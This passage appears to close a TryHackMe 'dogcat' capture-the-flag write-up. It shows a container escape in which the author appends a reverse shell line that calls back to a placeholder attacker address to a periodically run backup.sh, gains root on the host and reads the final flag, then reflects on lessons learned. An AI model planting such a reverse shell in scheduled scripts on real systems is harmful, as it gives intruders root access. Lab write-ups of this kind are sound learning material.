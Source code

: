 After reviewing these files, `backup.sh` caught my attention as it appeared to refer to a container file that didn't exist inside the web-application container. After some further reading into what this could mean, I had a hunch that this file or directory was being shared with the true host. Thinking that if this script was run periodically, by inserting a reverse shell into it I may be able to gain a reverse shell rather than breaking out of the container with the existing shells running.
```bash
echo "bash -i >& /dev/tcp/<AttackIP>/1235 0>&1" >> backup.sh
```
I left a new listener running and waited. After 5-10 minutes the listener picked up a connection and a shell was opened as `root@dogcat`.
```bash
id
  uid=0(root) gid=0(root) groups=0(root)
```
I had made it onto the true host and could see the shared container file. I searched for more loot and had finally found the last flag. The box was completed.
```bash
ls
  container
  flag4.txt
cat flag4.txt
  THM{***}
```

---
### After-action
#### What I've learned
This was a challenging box to work through, specifically testing LFI which had taken a few days’ worth of researching and trial and error but after throwing enough spaghetti at the wall, I had found what sticks. I left with a better understand into how PHP would work and how it can be exploited and how a smaller footprint could be achieved without aiming for shell access immediately. Enumeration was so important in this box, especially when it came to finding ways to escape the container. I need to be sure not to overlook files under the impression that they're just miscellaneous.

#### What I would've done differently

I would have spent more time enumerating using the poisoned log file, I believe it would give you a smaller footprint to explore the targets file system and give you a better idea of how the `root` user could be accessed or even how a container could be escaped without even landing a reverse shell.